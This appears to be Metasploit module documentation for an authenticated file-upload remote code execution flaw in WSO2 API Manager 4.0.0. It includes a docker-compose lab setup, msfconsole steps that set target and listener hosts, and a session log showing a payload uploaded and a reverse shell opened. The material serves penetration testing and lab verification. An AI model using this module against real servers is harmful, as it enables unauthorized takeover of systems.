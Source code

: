 ## Vulnerable Application

A vulnerability in the 'Add API Documentation' feature allows malicious users with specific permissions
(`/permission/admin/login` and `/permission/admin/manage/api/publish`) to upload arbitrary files to a user-controlled
server location. This flaw could be exploited to execute remote code, enabling an attacker to gain control over the server.

```yaml
services:
  api-manager:
    image: wso2/wso2am:4.0.0-alpine
    container_name: swo2_api_manager
    ports:
      - "9443:9443"

```

```bash
docker-compose up
```
## Verification Steps

1. Install the application
1. Start msfconsole
1. Do: `use multi/http/wso2_api_manager_file_upload_rce`
1. Do: `set rhosts [ip]`
1. Do: `set lhost [ip]`
1. Do: `run`
1. You should get a shell.

## Scenarios

### WSO2 API Manager 4.0.0
```
msf exploit(multi/http/wso2_api_manager_file_upload_rce) > exploit

[*] Started reverse TCP handler on 0.0.0.0:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Checking target...
[+] Authentication successful
[+] The target appears to be vulnerable. Detected WSO2 API Manager 4.0.0 which is vulnerable.
[+] Authentication successful
[*] Listing APIs...
[+] Document created successfully
[*] Uploading payload...
[+] Payload uploaded successfully
[*] Executing payload... 
[+] Payload executed successfully
[*] Command shell session 2 opened (127.0.0.1:4444 -> 127.0.0.1:58206) at 2024-11-03 15:36:37 +0100

id
uid=802(wso2carbon) gid=802(wso2) groups=802(wso2)
pwd
/home/wso2carbon/wso2am-4.0.0
exit
[*] 127.0.0.1 - Command shell session 2 closed.
```

## Options

### HttpUsername (required)

The username to authenticate with.

### HttpPassword (required)

The password of the user to authenticate with.

### RHOSTS (required)

The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html

### RPORT (required)

The target port (TCP)
